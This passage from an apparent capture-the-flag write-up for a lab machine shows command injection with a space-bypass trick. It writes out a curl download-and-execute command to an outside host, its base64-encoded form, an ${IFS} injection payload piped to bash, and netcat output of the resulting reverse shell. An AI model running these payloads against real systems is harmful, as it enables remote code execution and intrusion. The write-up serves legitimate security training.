We need to encode this payload to `base64` and send it in the `POST` request because request cannot contains whitespaces.


[Bypass without space](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md) & [Hacktricks - Bypass Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)


<h4>New payload:</h4>

<h5>First we need to encode into base64 our reverse shell</h5>

`echo "curl -fsSL http://10.10.14.174:13339/termite/10.10.14.174:13337 -o /tmp/.XrVxOLc2 && chmod +x /tmp/.XrVxOLc2 && /tmp/.XrVxOLc2" | base64 -w 0
`

```
Y3VybCAtZnNTTCBodHRwOi8vMTAuMTAuMTQuMTc0OjEzMzM5L3Rlcm1pdGUvMTAuMTAuMTQuMTc0OjEzMzM3IC1vIC90bXAvLlhyVnhPTGMyICYmIGNobW9kICt4IC90bXAvLlhyVnhPTGMyICYmIC90bXAvLlhyVnhPTGMyCg==
```

Then we use the `${IFS}` method to bypass the space restriction

```
;echo${IFS}"Y3VybCAtZnNTTCBodHRwOi8vMTAuMTAuMTQuMTc0OjEzMzM5L3Rlcm1pdGUvMTAuMTAuMTQuMTc0OjEzMzM3IC1vIC90bXAvLlhyVnhPTGMyICYmIGNobW9kICt4IC90bXAvLlhyVnhPTGMyICYmIC90bXAvLlhyVnhPTGMyCg=="|base64${IFS}-d|bash;
```

![PAYLOAD](payload.png)

```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [ATTACKER] from (UNKNOWN) [10.10.11.230] 47684
app@cozyhosting:/app$ whoami
whoami
app
app@cozyhosting:/app$ 
```

## Privilege Escalation

```
app@cozyhosting:/app$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 May 18  2023 .
drwxr-xr-x 19 root root 4096 Aug 14 14:11 ..
drwxr-x---  4 josh josh 4096 Dec  9 17:56 josh
```
